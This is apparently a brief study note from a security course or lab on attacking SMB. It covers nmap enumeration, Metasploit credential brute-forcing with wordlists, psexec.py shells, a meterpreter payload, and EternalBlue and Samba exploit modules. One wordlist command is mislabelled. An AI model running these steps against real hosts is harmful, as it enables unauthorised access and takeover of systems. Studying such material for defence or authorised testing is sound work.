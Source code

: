 # Exploiting SMB

PS Exec requires legitimate credentials  
SMB login brute force attach is the best attack for this  - _We can narrow down to the username **Administrator**_

## Enumerate
Use nmap -sC -sV to verify SMB version  
Message signing enabled but not required - This means we can authenticate with PSexec

## Brute Force
```service postgresql start && msfconsole```

**Module** - auxiliary/scanner/smb/smb_login
user file - ```set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt```  
Password file - ```set user_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt```  
Turn off Verbose

## psexec.py 
Since we cannot run .exe files on linux, we are going to use psexec.py

```psexec.py (username)@(Target IP address) cmd.exe```

## Extending attack - Metasploit
**Module** - exploit/windows/smb/psexec  
_This will authenticate through SMB and upload a meterpreter payload and execute it. This provides us with a meterpreset session_

## Eternal blue
**Module** - windows/smb/ms17_010_eternalblue)

## Samba
**Metasploit module**: exploit/multi/samba/usermap_script
